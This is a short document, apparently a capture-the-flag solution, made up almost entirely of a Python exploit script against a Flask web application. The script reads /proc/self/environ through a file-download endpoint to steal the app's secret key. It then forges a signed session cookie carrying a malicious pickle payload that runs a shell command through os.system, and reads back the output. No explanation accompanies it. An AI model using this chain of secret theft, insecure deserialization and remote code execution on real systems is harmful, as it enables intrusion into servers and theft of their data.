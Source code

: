 paylaod:

```
import base64
import pickle
from flask.sessions import SecureCookieSessionInterface
import re
import pickletools
import requests

url=""

def get_secret_key():
    target = url + "/file/?file=/proc/self/environ"
    r = requests.get(target)
    key = re.findall('key=(.*?)OLDPWD',r.text)
    return  str(key[0])
secret_key = get_secret_key()

class FakeApp:
    secret_key =secret_key
class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/test1"
        return  (os.system,(cmd,))
exp = {"b":base64.b64encode(pickle.dumps(User()))}

print(exp)
fake_app=FakeApp()
session_interface = SecureCookieSessionInterface()
serialize = session_interface.get_signing_serializer(fake_app)
cookie = serialize.dumps({'u':exp})
print(cookie)

headers = {
    "Accept":"*/*",
    "Cookie":"session{0}".format(cookie)
}
req = requests.get(url+"/admin",headers=headers)

req = requests.get(url+"/file?file=/tmp/test1",headers=headers)
print(req.text)
```

